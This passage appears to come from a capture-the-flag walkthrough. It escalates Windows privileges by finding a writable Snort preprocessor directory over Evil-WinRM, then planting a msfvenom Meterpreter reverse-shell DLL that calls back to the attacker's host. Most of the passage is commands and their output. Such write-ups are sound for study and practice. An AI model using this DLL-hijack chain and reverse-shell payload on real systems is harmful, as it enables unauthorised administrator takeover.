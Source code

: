 ```
*Evil-WinRM* PS C:\Users\jdoe\Documents> 
```

```
*Evil-WinRM* PS C:\Users\jdoe\Desktop> dir


    Directory: C:\Users\jdoe\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024   2:45 PM             34 user.txt


*Evil-WinRM* PS C:\Users\jdoe\Desktop> cd C:\snort\lib
*Evil-WinRM* PS C:\snort\lib> icacls snort_dynamicpreprocessor
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                          BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                          BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                          BUILTIN\Utilisateurs:(I)(CI)(AD)
                          BUILTIN\Utilisateurs:(I)(CI)(WD)
                          CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)
```

Create the reverse shell payload **.dll** using **msfvenom.**

```
┌──(Batman㉿GC)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o sf_shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: sf_shell.dll
```

Before Uploading payload **.dll** file into **C:\snort\lib\snort\_dynamicpreprocessor**, Start Metasploit framework in another terminal and start run. Once you Upload the file into **C:\snort\lib\snort\_dynamicpreprocessor,** You will get administrator access in meterpreter shell.

```
*Evil-WinRM* PS C:\snort\lib> cd C:\snort\lib\snort_dynamicpreprocessor
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> upload sf_shell.dll sf_engine.dll
                                        
Info: Uploading /home/Batman/sf_shell.dll to C:\snort\lib\snort_dynamicpreprocessor\sf_engine.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor>
```
